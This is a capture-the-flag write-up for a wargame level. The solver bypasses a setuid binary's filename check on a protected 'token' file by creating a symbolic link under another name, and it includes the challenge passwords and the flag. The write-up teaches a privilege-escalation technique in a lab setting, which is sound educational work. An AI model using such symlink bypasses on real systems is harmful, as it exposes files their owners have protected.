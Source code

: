 `su level08 -> fiumuikeil55xe9cu4dood66h`

We see two files, `token` which is only readable by flag08, and `level08` which we can execute.

```bash
$ ./level08
./level08 [file to read]
$ ./level08 token
You may not access 'token'
$ echo '123' > /tmp/test
$ ./level08 /tmp/test
123
```

So this executable reads then write the file given as argument.

```bash
$ ltrace ./level08 /tmp/test
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/test", "token")                                                          = NULL
open("/tmp/test", 0, 014435162522)                                                    = 3
read(3, "123\n", 1024)                                                                = 4
write(1, "123\n", 4123
)                                                                  = 4
```

It reads a file if its name doesn't contain token. So we have to make him read `token` referred as another name.

We will try to create a symbolic link to token, so that it will pass the strstr() comparison, but still open()`token`.

```bash
$ ln -s /home/user/level08/token flag
$ ./level08 flag
quif5eloekouj29ke0vouxean
$ su flag08 -> quif5eloekouj29ke0vouxean
$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```